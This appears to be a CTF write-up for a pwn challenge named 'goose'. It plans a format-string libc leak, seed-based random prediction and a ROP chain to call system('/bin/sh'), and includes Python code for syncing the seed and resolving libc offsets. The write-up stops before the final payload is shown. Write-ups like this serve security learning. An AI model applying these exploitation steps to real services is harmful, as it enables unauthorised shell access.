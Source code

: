 ## 2. Attack Plan

1. **Honk count prediction**\
   There were two possible approaches.  
   1-a: reproduce the random numbers using the same seed.  
   1-b: leak the random numbers directly.  
   However, since I didn't notice option 1-b during the CTF, I went with the method of reproducing the random numbers.

2. **Flag access**\
   No direct function exposed the flag, so we’ll build a ROP chain to call `system("/bin/sh")`.

3. **Leak libc address**\
   Use the format string vulnerability to leak a libc address (e.g. `__libc_start_main`).

4. **Get exact libc file**\
   To calculate offsets, I pulled the remote libc from the Docker container. There might be smarter ways to do this, but this worked for me 🫠

## 3. Honk Count Syncing

```python
seed = int(time.time())
# Adjust seed for time lag if needed (e.g. seed += 1)
local_libc = ctypes.CDLL("/lib/x86_64-linux-gnu/libc.so.6")
local_libc.srand(seed)  
HONK_cnt = local_libc.rand() % 0x5b + 10 # Matches the server logic
```

## 4. Getting the Remote libc

```sh
$ docker build -t goose .
$ docker run --name goose -itd goose /bin/sh
$ docker cp goose:/srv/lib/x86_64-linux-gnu/libc.so.6 ./
```

## 5. ROP Chain Construction

We want to run `system("/bin/sh")` so we need:

- `ret` (for stack alignment)
- `pop rdi; ret`
- address of `"/bin/sh"`
- address of `system`

## 6. Resolving Offsets

```python
#remote
libc_file = "/home/xxxx/goose/libc.so.6"
#local
#libc_file = "/lib/x86_64-linux-gnu/libc.so.6"

libc = ELF(libc_file, checksec=False)
rop = ROP(libc)
libc_start_main_offset = libc.symbols['__libc_start_main']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh"))
pop_rdi_ret_offset = rop.find_gadget(['pop rdi', 'ret']).address
ret_offset = rop.find_gadget(['ret']).address
```
